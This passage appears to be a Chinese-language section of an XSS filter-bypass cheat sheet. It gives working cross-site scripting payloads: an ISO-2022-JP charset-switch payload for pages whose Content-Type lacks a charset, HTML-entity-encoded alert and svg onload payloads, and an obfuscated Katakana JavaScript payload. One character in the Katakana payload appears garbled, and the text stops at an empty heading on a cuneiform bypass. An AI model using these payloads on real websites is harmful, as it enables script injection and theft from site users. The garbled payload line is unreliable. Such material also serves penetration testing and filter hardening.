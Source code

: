 ## 使用缺失字符集头的绕过

**要求**:

- 服务器头缺少`charset`: `Content-Type: text/html`

### ISO-2022-JP

ISO-2022-JP使用转义字符在几种字符集中切换。

| 转义    | 编码        |
|-----------|-----------------|
| `\x1B (B` | ASCII           |
| `\x1B (J` | JIS X 0201 1976 |
| `\x1B $@` | JIS X 0208 1978 |
| `\x1B $B` | JIS X 0208 1983 |

使用[代码表](https://en.wikipedia.org/wiki/JIS_X_0201#Codepage_layout)，我们可以发现多个字符在从**ASCII**切换到**JIS X 0201 1976**时会被转换。

| 十六进制  | ASCII | JIS X 0201 1976 |
| ---- | --- | --- |
| 0x5c | `\` | `¥` |
| 0x7e | `~` | `‾` |

**示例**:

使用`%1b(J`强制将`\`（ASCII）转换为`¥`（JIS X 0201 1976），取消引用引号。

有效载荷: `search=%1b(J&lang=en";alert(1)//`

## 使用HTML编码的绕过

```javascript
%26%2397;lert(1)
&#97;&#108;&#101;&#114;&#116;
></script><svg onload=%26%2397%3B%26%23108%3B%26%23101%3B%26%23114%3B%26%23116%3B(document.domain)>
```

## 使用片假名的绕过

使用[aemkei/Katakana](https://github.com/aemkei/katakana.js)库。

```javascript
javascript:([,ウ,,,,ア]=[]+{},[ネ,ホ,ヌ,セ,,ミ,ハ,ヘ,,,ナ]=[!!ウ]+!ウ+ウ.ウ)[ツ=ア+ウ+ナ+ヘ+ネ+ホ+ヌ+ア+ネ+ウ+ホ][ツ](ミ+ハ+セ+霍+ネ+'(-~ウ)')()
```

## 使用楔形文字的绕过
